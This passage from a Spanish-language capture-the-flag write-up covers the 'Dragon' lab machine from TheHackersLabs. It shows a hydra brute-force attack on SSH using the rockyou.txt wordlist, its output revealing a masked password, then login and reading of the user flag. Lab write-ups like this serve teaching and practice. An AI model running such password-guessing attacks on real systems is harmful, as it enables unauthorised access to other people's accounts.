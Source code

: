 
<h2 id="SSH">Aplicando Fuerza Bruta al Servicio SSH</h2>

Para aplicar la **Fuerza Bruta**, utilizaremos la herramienta **hydra** y el wordlist **rockyou.txt**:
```bash
hydra -l 'dragon' -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.140 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-24 11:30:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.100.140:22/
[22][ssh] host: 192.168.100.140   login: dragon   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-24 11:30:47
```
Tenemos la contraseña.

Probémosla:
```bash
ssh dragon@192.168.100.140
dragon@192.168.100.140's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-71-generic x86_64)
...
Last login: Tue Aug  5 08:13:55 2025
dragon@TheHackersLabs-Dragon:~$ whoami
dragon
```
Estamos dentro.

Aquí podemos encontrar la flag del usuario:
```bash
dragon@TheHackersLabs-Dragon:~$ ls
user.txt
dragon@TheHackersLabs-Dragon:~$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
